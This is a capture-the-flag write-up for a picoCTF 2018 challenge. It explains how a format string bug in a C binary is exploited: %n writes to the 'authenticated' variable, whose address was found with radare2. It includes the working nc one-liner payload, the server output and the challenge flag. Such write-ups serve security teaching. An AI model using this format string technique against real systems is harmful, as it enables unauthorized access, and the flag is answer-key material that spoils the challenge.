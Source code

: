 # Authenticate

Can you authenticate to this [service](auth) and get the flag? Connect with `nc 2018shell.picoctf.com 52918`. [Source](auth.c).

## Solution
This was a format string vulnerability. Since the binary is not using [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization), I used [radare2](https://github.com/radareorg/radare2) to find the address of the `authenticated` variable. I later discovered that the `%n` format specifier writes the number of characters written so far to a signed integer. This signed integer is passed in as a parameter to `printf`. So using radare2 I discovered that the input string is `11 words (32-bit words)` away from the stack pointer. Thus I crafted an input string that would write, the number of characters written so far, to the `authenticated` integer.

Since the `authenticated` integer would no longer be zero, then `!authenticated` would evaluate to `true`.

### Exploit
Naturally the exploit then becomes:

```
$ echo -e '\x4c\xa0\x04\x08 %11$n' | nc 2018shell.picoctf.com 52918
Would you like to read the flag? (yes/no)
Received Unknown Input:

L 
Access Granted.
picoCTF{y0u_4r3_n0w_aUtH3nt1c4t3d_d29a706d}
```
